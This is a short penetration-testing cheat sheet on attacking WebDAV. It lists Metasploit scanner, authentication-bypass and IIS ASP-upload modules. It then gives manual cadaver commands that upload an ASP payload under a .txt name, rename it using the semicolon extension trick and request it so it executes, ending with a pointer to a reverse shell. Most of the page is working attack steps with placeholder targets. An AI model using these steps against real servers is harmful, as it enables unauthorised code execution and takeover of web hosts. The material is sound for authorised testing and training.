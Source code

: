 # ⭕ WebDAV

### WebDAV Exploitation using Metasploit <a href="#webdav-exploitation-using-metasploit" id="webdav-exploitation-using-metasploit"></a>

```bash
# Checking WebDAV using metasploit
use auxiliary/scanner/http/webdav_scanner
set rhosts <IP>
run

# Content discovery using metasploit
use auxiliary/scanner/http/webdav_website_content
set rhosts <IP>
run

# Checking authentication using metasploit
use auxiliary/scanner/http/ms09_020_webdav_unicode_bypass
set rhosts <IP>
run

# Upload exploitation using metasploit
use exploit/windows/iis/iis_webdav_upload_asp
```

### Manual WebDAV exploitation (cadaver) <a href="#manual-webdav-exploitation-cadaver" id="manual-webdav-exploitation-cadaver"></a>

```bash
cadaver http://IP/

# Goal is to upload file on IIS Server.
ls 

# Find a directory where we can upload.
cd <path>

# Test for upload
put /path/to/test.asp test.asp

# Upload payload
put /path/to/payload.asp longnamebrotesttest123456789.txt

# Copy and rename payload
copy longnamebrotesttest123456789.txt longnamebrotesttest123456789.asp;.txt

# Access (should execute the ASP content)
http://IP/_vti_pvt/longnamebrotesttest123456789.asp%3b.txt
        
# Then go for reverse shell
```
